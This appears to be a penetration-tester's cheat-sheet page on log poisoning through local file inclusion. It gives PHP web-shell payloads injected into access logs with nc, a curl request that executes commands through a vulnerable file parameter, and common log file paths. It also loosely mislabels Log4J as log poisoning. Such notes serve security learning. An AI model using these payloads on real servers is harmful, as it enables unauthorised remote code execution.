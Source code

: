 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```

## Log File Locations:

To perform log poisoning we require a log file to poison. 

Linux
```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log
# FreeBSD
/var/log/httpd-access.log
```
Windows
```
C:\xampp\apache\logs\access.log
```

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
`C:\inetpub\logs\LogFiles\W3SVC1\`
`C:\inetpub\wwwroot\web.config`
Apache logs can be found in `C:\xampp\apache\logs`


## Located Controllable Log Fields

Use Burpsuite ([[BurpSuite]]) or combination of `curl` ([[Curl-Cheatsheet]]) modifying the various possible fields contained in the log. 

```bash
# curl to burp proxy
curl 127.0.0.1 --proxy 8000
```

```bash
# Test Symbol filtering 
User-Agent: Add your testing message here" 
```
Test Symbol filtering most importantly the quotation escaping like the above.
```
# From: !@#$%$^&*()"':;<>,.?/`~ 
```

Controlling a modifiable field then leads to test whether the server or website language can execute code from this log file.  Beware of server side language handling the code. Notably if you see (for example `<?php`) script tags and the following executable code then there this code is not being passed to a function  that can execute the code.  

```php
<?php system($_REQUEST['cmd']); ?>
```

`url:/path/to/log/logname.log&cmd=

## References

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)